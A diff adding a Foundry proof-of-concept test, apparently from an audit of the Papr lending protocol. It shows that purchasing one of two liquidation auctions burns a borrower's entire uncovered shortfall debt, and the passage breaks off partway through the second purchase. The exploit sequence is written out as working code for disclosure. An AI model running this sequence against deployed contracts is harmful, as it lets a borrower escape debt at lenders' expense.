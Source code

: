 ```
+        // make max loan liquidatable
+        vm.warp(block.timestamp + 1 days);
+        priceKind = ReservoirOracleUnderwriter.PriceKind.TWAP;
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+    }
+
+    function testPoC() public {
+        vm.startPrank(purchaser);
+        debtToken.approve(address(controller), type(uint256).max);
+
+        // start auction1, collateralId
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        auction1 = controller.startLiquidationAuction(borrower, collateral, oracleInfo);
+
+        // nobody purchage auction1 for some reason(like nft price falling)
+
+        // start auction2, collateralId+1
+        vm.warp(block.timestamp + controller.liquidationAuctionMinSpacing());
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        auction2 = controller.startLiquidationAuction(
+            borrower, IPaprController.Collateral({id: collateralId+1, addr: nft}),  oracleInfo);
+
+        IPaprController.VaultInfo memory info = controller.vaultInfo(borrower, collateral.addr);
+        assertGt(info.debt, 2.99e18);
+
+        // purchase auction1
+        uint256 beforeBalance = debtToken.balanceOf(borrower);
+        uint256 price = controller.auctionCurrentPrice(auction1);
+        uint256 penalty = price * controller.liquidationPenaltyBips() / 1e4;
+        uint256 reduced = price - penalty;
+        uint256 shortfall = info.debt - reduced;
+        // burn penalty
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), penalty);
+        // reduce debt (partial)
+        vm.expectEmit(true, false, false, true);
+        emit ReduceDebt(borrower, collateral.addr, reduced);
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), reduced);
+        //!! burning the shortfall debt not covered by auction
+        vm.expectEmit(true, false, false, true);
+        emit ReduceDebt(borrower, collateral.addr, shortfall);
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        controller.purchaseLiquidationAuctionNFT(auction1, price, purchaser, oracleInfo);
+
+        // reduced: 0.65..
+        assertLt(reduced, 0.66e18);
+        // fortfall: 2.34..
+        assertGt(shortfall, 2.34e18);
+        //!! debt is 0 now
+        info = controller.vaultInfo(borrower, collateral.addr);
+        assertEq(info.debt, 0);
+
+        // purchase auction2
+        // https://www.wolframalpha.com/input?i=solve+3+%3D+8.999+*+0.3+%5E+%28x+%2F+86400%29
+        vm.warp(block.timestamp + 78831);
+        beforeBalance = debtToken.balanceOf(borrower);
+        price = controller.auctionCurrentPrice(auction2);
+        penalty = price * controller.liquidationPenaltyBips() / 1e4;
+        uint256 payouts = price - penalty;
+        // burn penalty
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), penalty);
```